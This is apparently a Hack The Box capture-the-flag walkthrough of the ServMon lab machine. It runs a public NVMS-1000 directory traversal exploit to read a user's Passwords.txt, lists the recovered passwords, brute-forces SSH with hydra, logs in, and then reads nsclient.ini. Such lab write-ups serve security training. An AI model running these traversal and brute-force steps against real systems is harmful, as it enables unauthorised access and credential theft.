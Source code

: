 ### 15-Mar-24-Fri

[ServMon](https://app.hackthebox.com/machines/ServMon)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/44ff979e-f709-4978-92e5-218b42345017)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2b171915-d18e-4c3a-a234-7438ffd5a8d4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/5b193143-2df7-40de-8e91-006d66149650)

*Notes to do.txt*

```
1) Change the password for NVMS - Complete
2) Lock down the NSClient Access - Complete
3) Upload the passwords
4) Remove public access to NVMS
5) Place the secret files in SharePoint
```

*Confidential.txt*

```
Nathan,

I left your Passwords.txt file on your Desktop.  Please remove this once you have edited it yourself and place it back into the secure folder.

Regards

Nadine
```

https://github.com/AleDiBen/NVMS1000-Exploit/blob/master/nvms.py

```
python nvms.py 10.129.219.191 Users/Nathan/Desktop/Passwords.txt Passwords.txt
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a6a801b5-d25f-49db-a382-e77cc9e8a3ff)

```
++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```

```
hydra -L Users.txt -P Passwords.txt ssh://10.129.219.191:22 -t 4 -V
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/bd576dbb-3b39-494d-bd2b-39524ca532d4)

```
[22][ssh] host: 10.129.219.191   login: Nadine   password: L1k3B1gBut7s@W0rk
```

```
ssh Nadine@10.129.219.191
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/61d7350e-59a4-4411-9e2c-63a745a88e56)

```
eba203a9c395aef828f6801967cca9bd
```

```
type nsclient.ini
```


